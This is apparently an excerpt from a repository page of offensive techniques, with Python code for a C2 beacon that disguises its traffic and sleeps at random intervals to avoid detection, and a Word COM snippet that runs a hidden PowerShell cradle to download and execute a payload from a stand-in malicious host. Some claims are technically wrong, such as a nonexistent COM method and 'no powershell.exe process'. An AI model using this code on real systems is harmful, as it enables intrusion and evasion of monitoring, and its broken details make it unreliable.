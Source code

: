 2️⃣ C2 Beacon Obfuscation (Malleable Profiles)

💡 Hides beacon traffic using legitimate-looking HTTP requests

Implementation
```
import requests
import random
import time

C2_URL = "https://legitimate-website.com/api/status"
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "Accept": "application/json",
}

def send_beacon():
    while True:
        data = {"status": "OK", "timestamp": time.time()}
        
        # Send C2 signal disguised as normal traffic
        response = requests.post(C2_URL, json=data, headers=HEADERS)
        
        # Randomized sleep to avoid detection
        time.sleep(random.randint(10, 30))
        print("[*] C2 Beacon Sent")

send_beacon()
```
✅ Blends with normal web traffic
✅ Uses random intervals to avoid detection
✅ Hides payload in JSON requests



3️⃣ Code Execution via COM Objects (LOLbins)

💡 Executes shellcode using Microsoft Office COM objects (No Process Creation!)

Implementation
```pythom
import win32com.client

# Create Word Application object (invisible)
word = win32com.client.Dispatch("Word.Application")
word.Visible = False

# Execute command silently
word.System("powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')")

print("[*] Payload Executed via COM Objects")
```
✅ No cmd.exe or powershell.exe process
✅ Runs via Microsoft Word COM API
✅ Bypasses process-based monitoring
